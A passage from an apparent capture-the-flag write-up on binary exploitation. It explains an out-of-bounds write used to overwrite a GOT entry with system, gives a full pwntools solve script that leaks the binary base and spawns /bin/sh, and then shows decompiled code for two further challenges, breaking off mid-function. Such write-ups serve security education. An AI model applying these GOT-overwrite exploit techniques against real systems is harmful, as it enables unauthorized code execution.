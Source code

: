 The write function will write into `todos[idx * 48]`.

We can enter `idx=4`, which will write into `todos - 0xc0`. then we can provide one quadword of nullbytes, and we will reach the `GOT` entry.

Then , we will write the address of `system`, and then we can just write `/bin/sh`, which will be our menu option, and `atoi` will be called with it, and thats how you gain `RCE`.

Here is my full solve script:

```py

from pwn import *

elf = ELF("./book")
p = process('./book')

p.sendline("name") 

def read(idx):
	p.sendline("2")
	p.recvuntil("read? ")
	p.sendline(str(idx))
	p.recvuntil("NOTE: ")	
	return p.recvline()

def store(idx, content):
	p.sendline("3")

	p.sendline(str(idx))

	p.sendline(content)


elf.address = u64(read(-6)[:-1].ljust(8, b'\x00'))  - 0x1040

store(-4, p64(0) + p64(elf.sym.system))

p.sendline("/bin/sh")

p.interactive()
```

## System-leak / System-write

`System-leak` and `System-write` were the 2 last pwn challenges in the event.

They both were kind of the same, the only things different is their mitigations, and the description of `System-leak` has hinted that it will be enough to leak memory and get the flag from their.

It wasn't really important for me, since I achieved RCE for both of them, and the solution was exactly the same.

Here is the code of the challenges, decompiled using `IDA`:
```c
void __fastcall __noreturn main(int a1, char **a2, char **a3)
{
  int choice; // [rsp+0h] [rbp-220h] BYREF
  int pri; // [rsp+6h] [rbp-21Ah] BYREF
  char s[520]; // [rsp+10h] [rbp-210h] BYREF
  unsigned __int64 v6; // [rsp+218h] [rbp-8h]
  __int64 savedregs; // [rsp+220h] [rbp+0h] BYREF

  v6 = __readfsqword(0x28u);
  setvbuf(stdin, 0LL, 2, 0LL);
  setvbuf(stdout, 0LL, 2, 0LL);
  setvbuf(stderr, 0LL, 2, 0LL);
```